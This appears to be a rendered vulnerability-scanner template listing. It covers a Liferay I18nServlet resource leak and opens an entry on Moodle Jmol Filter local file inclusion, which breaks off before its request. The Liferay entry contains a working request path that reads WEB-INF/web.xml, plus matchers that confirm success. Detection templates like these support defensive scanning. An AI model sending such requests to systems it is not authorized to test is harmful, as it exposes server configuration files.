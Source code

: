 
# Liferay - Resource leakage through I18nServlet

## Description

- I18n Servlet leaks information by sending an HTTP request to /[language]/[resource];.js (also .jsp works).

- severity - high
- tags - liferay,lfi,j2ee

## Requests

- Method - GET

### URL

- {{BaseURL}}/en/WEB-INF/web.xml;.js

### Matchers

**Type - word**

- part - body
- words
  1. \<web-app id=
  2. \<?xml
- condition - and

**Type - word**

- part - header
- words
  1. application/xml

**Type - status**

- status
  1. 200

---

# Moodle Jmol Filter 6.1 - Local File Inclusion

## Description

- Moodle is vulnerable to local file inclusion.
- severity - high
- tags - moodle,lfi,edb

## Requests
